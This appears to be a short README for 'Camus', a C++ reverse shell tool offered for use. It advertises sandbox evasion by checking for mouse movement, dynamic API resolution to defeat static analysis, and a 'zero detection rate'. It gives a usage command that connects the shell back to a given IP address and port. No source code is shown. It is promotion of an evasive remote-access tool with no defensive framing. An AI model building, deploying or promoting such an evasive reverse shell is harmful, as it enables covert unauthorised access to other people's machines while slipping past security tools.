



# Camus

  

Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

Usage:
- Run the program alongside with the IP address and port as inputs for example: Camus.exe 192.168.1.1 555  

[Notice] When you trying to test the tool remember to change the mouse cursor otherwise it would be terminated.

 
 
 
